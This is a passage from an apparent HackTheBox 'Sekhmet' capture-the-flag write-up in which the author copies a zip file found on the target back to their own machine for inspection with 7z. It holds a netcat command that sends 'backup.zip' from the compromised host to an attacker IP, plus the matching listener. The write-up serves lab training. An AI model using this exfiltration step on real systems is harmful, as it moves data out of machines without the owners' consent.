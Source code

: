 
I was struck by how peculiar it was to come across a random zip file here. Despite my attempts to crack the hash, I couldn't make any headway. So, I decided to transfer the file back to my machine and use '7z l -slt' to scrutinize the technical details of the zip file.
on the target:
```bash
nc -w 4 10.10.14.xx 1234 < backup.zip
```
on attacker :

```bash
nc -lnv > backup.zip
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/17.png"  >


```bash
7z l -slt backup.zip
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/18.png"  >